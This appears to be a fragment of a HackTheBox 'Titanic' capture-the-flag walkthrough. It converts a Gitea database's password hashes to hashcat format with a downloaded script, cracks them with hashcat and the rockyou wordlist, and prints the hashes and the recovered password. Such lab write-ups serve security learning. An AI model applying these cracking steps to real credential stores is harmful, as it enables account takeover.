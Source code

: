 # just hash

```
python3 gitea2hashcat.py /home/kali/gitea.db > hashes.txt
```

``wget https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/f109d178edbe756f15060244d735181278c9b57e/gitea2hashcat.py``

---

### ``cat hashes.txt``

```
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
sha256:50000:Es/JE20QUDJIL33w/jbEiQ==:XljpYwTwRmlPyxK7uNhJXHy5cViBgtrZAFJ3EZct+tUWjDRIVLaK8QVisiOvRhhOf6M=
```

now crack it using ``hashcat``

```
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```
now ``show``

```
hashcat -m 10900 hashes.txt --show
```

``found``

```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

![image](https://github.com/user-attachments/assets/189472a7-0fbf-48ba-b5ef-b5f55e98255c)

password is **``25282528``**



----
----

check this writeup

https://xhuntr3ss.gitbook.io/xhuntr3sss-hack-vault/usd-vault/vaultusd-walkthroughs/htb-titanic#exploit


